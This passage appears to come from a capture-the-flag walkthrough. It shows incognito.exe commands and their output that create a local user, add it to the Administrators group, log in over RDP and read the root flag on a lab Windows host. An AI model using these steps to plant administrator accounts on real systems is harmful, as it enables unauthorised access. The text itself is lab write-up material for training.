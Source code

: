 Add a new user using incognito.exe:

```shell
.\incognito.exe add_user vorkharium password123
```

```shell
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user vorkharium to host 127.0.0.1
[+] Successfully added user
```

After that, use incognito.exe to add the new user to local administrators group:

```shell
.\incognito.exe add_localgroup_user Administrators vorkharium
```

```shell
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Attempting to add user vorkharium to local group Administrators on host 127.0.0.1
[+] Successfully added user to local group
```

Nice! We were able to successfully add a new user and make him a local administrator.

Now we can try to get access using the new user we created through RDP. I tried had some problems trying accessing with xfreerdp, but I was successful using rdesktop:

```shell
rdesktop 10.10.58.177 -u 'vorkharium' -p 'password123'
```

We can open the console and see if the new user is part of administrators:

```shell
net user vorkharium
```

Examining the output inside Local Group Memberships we can see that the new user is part of Administrators.

### Root Flag
Run cmd.exe as Administrator, now we can start our search for the root.txt flag using the following command:

```shell
dir \root.txt /s /p
```

Examining the results, we will see that the root.txt file is located at the following directory:

```shell
C:\Windows\System32\config
```

Lets get it:

```shell
type C:\Windows\System32\config\root.txt
```


